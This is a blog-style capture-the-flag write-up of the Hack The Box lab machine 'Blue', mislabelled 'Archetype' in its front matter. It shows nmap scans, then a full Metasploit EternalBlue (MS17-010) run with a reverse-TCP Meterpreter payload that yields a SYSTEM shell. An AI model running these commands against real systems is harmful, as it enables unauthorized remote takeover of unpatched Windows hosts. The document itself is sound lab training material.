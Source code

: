 ```yaml
---
title: "Hack The Box - Archetype"
date: 2023-12-02T00:03:25+05:30
draft: false
description: " Blue from HackTheBox is an retired machine which is vulnerable to infamous CVE:CVE-2017-0143 SMB vulnerabilities which can be easily exploited with publicly available scripts and Metasploit "
hideToc: false
enableToc: true
enableTocContent: true
author: Atom
authorEmoji: ✍️
tags: 
- SMB
- CVE-ID-2017-0143
series:
- Pratical Ethical Hacking TCM
categories:
- Easy
- HackTheBox
- Windows
- CVE Exploitation 
- Metasploit
libraries:

image: /images/hackthebox/blue/Blue.png 
---
```


Hi Hackers Welcome Back, Today we are going to look at Hack The Box Blue Machine.

{{< img src="/images/hackthebox/blue/1.png" alt="image alt" width="450px"  position="center" >}}

## Info Table
<table style="width:100%">
 <thead>
  <tr>
    <th>Title</th>
    <th>Blue</th>
  </tr>
</thead>
<tr>
    <td>Category</td>
    <td>Hack The Box</td>
    </tr>
  <tr>
    <td>OS</td>
    <td>Windows</td>
    </tr>
  </tr>
   <tr>
    <td>Difficulty</td>
    <td>Easy</td>
    </tr>
    <tr>
    <td>Maker</td>
    <td><a href="https://www.hackthebox.eu/home/users/profile/1"><img src="https://www.hackthebox.eu/badge/image/1" alt="" style="display: unset"></a>  </td>
    </tr>
    <tr>
    </tr>
</table>

## Kill Chain Summery
While enumerating ports and services we can able to find the service, which is vulnerable to infamous CVE-2017-0143. Smb vulnerabilities which can be easily exploited with publicly available scripts and Metasploit. 

## Mind Map 
{{< img src="/images/hackthebox/blue/mm.png" alt="image alt" width="1000px"  position="center" >}}

## Recon

we run a quick initial nmap scan to see which ports are open and which services are running on those ports.

``` bash
$nmap -Pn -sC -sV -A 10.129.102.59 -oN  initial
Starting Nmap 7.92 ( https://nmap.org ) at 2022-06-08 06:35 IST
Stats: 0:01:56 elapsed; 0 hosts completed (1 up), 1 undergoing Service Scan
Service scan Timing: About 77.78% done; ETC: 06:37 (0:00:18 remaining)
Nmap scan report for 10.129.102.59
Host is up (0.35s latency).
Not shown: 991 closed tcp ports (conn-refused)
PORT      STATE SERVICE      VERSION
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds Windows 7 Professional 7601 Service Pack 1 microsoft-ds (workgroup: WORKGROUP)
49152/tcp open  msrpc        Microsoft Windows RPC
49153/tcp open  msrpc        Microsoft Windows RPC
49154/tcp open  msrpc        Microsoft Windows RPC
49155/tcp open  msrpc        Microsoft Windows RPC
49156/tcp open  msrpc        Microsoft Windows RPC
49157/tcp open  msrpc        Microsoft Windows RPC
Service Info: Host: HARIS-PC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   2.1: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2022-06-08T01:07:44
|_  start_date: 2022-06-07T15:32:51
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb-os-discovery: 
|   OS: Windows 7 Professional 7601 Service Pack 1 (Windows 7 Professional 6.1)
|   OS CPE: cpe:/o:microsoft:windows_7::sp1:professional
|   Computer name: haris-PC
|   NetBIOS computer name: HARIS-PC\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2022-06-08T02:07:43+01:00
|_clock-skew: mean: -19m55s, deviation: 34m36s, median: 3s

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 134.70 seconds
```
## Enumeration

``` bash {hl_lines=[20, 21]}
┌─[✗]─[atom@atom-vmwarevirtualplatform]─[~]
└──╼ $nmap -p 135,139,445 -sV -sC  --script vuln 10.129.102.59
Starting Nmap 7.92 ( https://nmap.org ) at 2022-06-08 06:57 IST
Stats: 0:00:24 elapsed; 0 hosts completed (1 up), 1 undergoing Script Scan
NSE Timing: About 96.61% done; ETC: 06:57 (0:00:00 remaining)
Nmap scan report for 10.129.102.59
Host is up (0.29s latency).

PORT    STATE SERVICE      VERSION
135/tcp open  msrpc        Microsoft Windows RPC
139/tcp open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp open  microsoft-ds Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
Service Info: Host: HARIS-PC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_smb-vuln-ms10-054: false
| smb-vuln-ms17-010: 
|   VULNERABLE:
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2017-0143
|     Risk factor: HIGH
|       A critical remote code execution vulnerability exists in Microsoft SMBv1
|        servers (ms17-010).
|           
|     Disclosure date: 2017-03-14
|     References:
|       https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/
|       https://technet.microsoft.com/en-us/library/security/ms17-010.aspx
|_      https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143
|_smb-vuln-ms10-061: NT_STATUS_OBJECT_NAME_NOT_FOUND

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 36.73 seconds

```
## Exploitation 

``` bash {hl_lines=[1, 17, 20, 22, 24, 56, 62, 66]}
[msf](Jobs:0 Agents:0) >> search ms17-010

Matching Modules
================

   #  Name                                      Disclosure Date  Rank     Check  Description
   -  ----                                      ---------------  ----     -----  -----------
   0  exploit/windows/smb/ms17_010_eternalblue  2017-03-14       average  Yes    MS17-010 EternalBlue SMB Remote Windows Kernel Pool Corruption
   1  exploit/windows/smb/ms17_010_psexec       2017-03-14       normal   Yes    MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Code Execution
   2  auxiliary/admin/smb/ms17_010_command      2017-03-14       normal   No     MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Command Execution
   3  auxiliary/scanner/smb/smb_ms17_010                         normal   No     MS17-010 SMB RCE Detection
   4  exploit/windows/smb/smb_doublepulsar_rce  2017-04-14       great    Yes    SMB DOUBLEPULSAR Remote Code Execution


Interact with a module by name or index. For example info 4, use 4 or use exploit/windows/smb/smb_doublepulsar_rce

[msf](Jobs:0 Agents:0) >> use 0
[*] No payload configured, defaulting to windows/x64/meterpreter/reverse_tcp

[msf](Jobs:0 Agents:0) exploit(windows/smb/ms17_010_eternalblue) >> set rhost 10.129.102.59
rhost => 10.129.102.59
[msf](Jobs:0 Agents:0) exploit(windows/smb/ms17_010_eternalblue) >> set lhost 10.10.14.33
lhost => 10.10.14.33
[msf](Jobs:0 Agents:0) exploit(windows/smb/ms17_010_eternalblue) >> run

[*] Started reverse TCP handler on 10.10.14.33:4444 
[*] 10.129.102.59:445 - Using auxiliary/scanner/smb/smb_ms17_010 as check
[+] 10.129.102.59:445     - Host is likely VULNERABLE to MS17-010! - Windows 7 Professional 7601 Service Pack 1 x64 (64-bit)
[*] 10.129.102.59:445     - Scanned 1 of 1 hosts (100% complete)
[+] 10.129.102.59:445 - The target is vulnerable.
[*] 10.129.102.59:445 - Connecting to target for exploitation.
[+] 10.129.102.59:445 - Connection established for exploitation.
[+] 10.129.102.59:445 - Target OS selected valid for OS indicated by SMB reply
[*] 10.129.102.59:445 - CORE raw buffer dump (42 bytes)
[*] 10.129.102.59:445 - 0x00000000  57 69 6e 64 6f 77 73 20 37 20 50 72 6f 66 65 73  Windows 7 Profes
[*] 10.129.102.59:445 - 0x00000010  73 69 6f 6e 61 6c 20 37 36 30 31 20 53 65 72 76  sional 7601 Serv
[*] 10.129.102.59:445 - 0x00000020  69 63 65 20 50 61 63 6b 20 31                    ice Pack 1      
[+] 10.129.102.59:445 - Target arch selected valid for arch indicated by DCE/RPC reply
[*] 10.129.102.59:445 - Trying exploit with 12 Groom Allocations.
[*] 10.129.102.59:445 - Sending all but last fragment of exploit packet
[*] 10.129.102.59:445 - Starting non-paged pool grooming
[+] 10.129.102.59:445 - Sending SMBv2 buffers
[+] 10.129.102.59:445 - Closing SMBv1 connection creating free hole adjacent to SMBv2 buffer.
[*] 10.129.102.59:445 - Sending final SMBv2 buffers.
[*] 10.129.102.59:445 - Sending last fragment of exploit packet!
[*] 10.129.102.59:445 - Receiving response from exploit packet
[+] 10.129.102.59:445 - ETERNALBLUE overwrite completed successfully (0xC000000D)!
[*] 10.129.102.59:445 - Sending egg to corrupted connection.
[*] 10.129.102.59:445 - Triggering free of corrupted buffer.
[*] Sending stage (200262 bytes) to 10.129.102.59
[*] Meterpreter session 1 opened (10.10.14.33:4444 -> 10.129.102.59:49158 ) at 2022-06-08 07:02:32 +0530
[+] 10.129.102.59:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] 10.129.102.59:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-WIN-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] 10.129.102.59:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=

(Meterpreter 1)(C:\Windows\system32) > shell
Process 1840 created.
Channel 1 created.
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system

C:\Windows\system32>

```



you can find flags under Haries and Administrator's Desktop folder 

{{< notice success "we have successfully Pwned the Machine " >}}
See you on the next Blog, Happy hacking...
{{< /notice >}}